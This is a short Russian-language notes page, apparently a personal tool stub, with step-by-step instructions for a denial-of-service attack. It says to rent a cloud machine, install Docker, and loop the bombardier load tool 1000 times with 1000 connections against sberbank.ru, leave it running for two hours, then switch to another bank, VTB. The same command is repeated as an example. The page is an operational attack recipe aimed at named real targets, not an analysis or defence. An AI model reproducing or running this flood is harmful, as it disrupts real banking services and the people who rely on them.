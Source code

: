 ```yaml
---
alias: [ ]
---
```

tag: #Stub #Tool  
 [Source](),  
Related: [[]],  
Docs:  

## Описание
1. берем машину в клауде , не в германских регионах. или просто рабочие машины, все что угодно.
2. ставим убунту на нее 
3. ставим докер шаг за шагом по инструкции - https://docs.docker.com/engine/install/ubuntu (https://docs.docker.com/engine/install/ubuntu/)/ 
4. sudo apt install screen && screen 
5. запускаем след скрипт : 


for i in {1..1000}; do sudo docker run -it alpine/bombardier -c 1000 -d 60s -l https://www.sberbank.ru/ && sleep 5; done

6. ctrl+a , ctrl+d 
7. забываем про машину часа на 2.
8. меняем сайт сбера на сайт другого банка (втб) и заново

Docker Documentation (https://docs.docker.com/engine/install/ubuntu/)
Install Docker Engine on Ubuntu
Instructions for installing Docker Engine on Ubuntu

## Шаблон 
```bash

```
## Примеры: 
######  
```bash
for i in {1..1000}; do sudo docker run -it alpine/bombardier -c 1000 -d 60s -l https://www.sberbank.ru/ && sleep 5; done

```

## Используемые или важные ключи.
### Файлы  



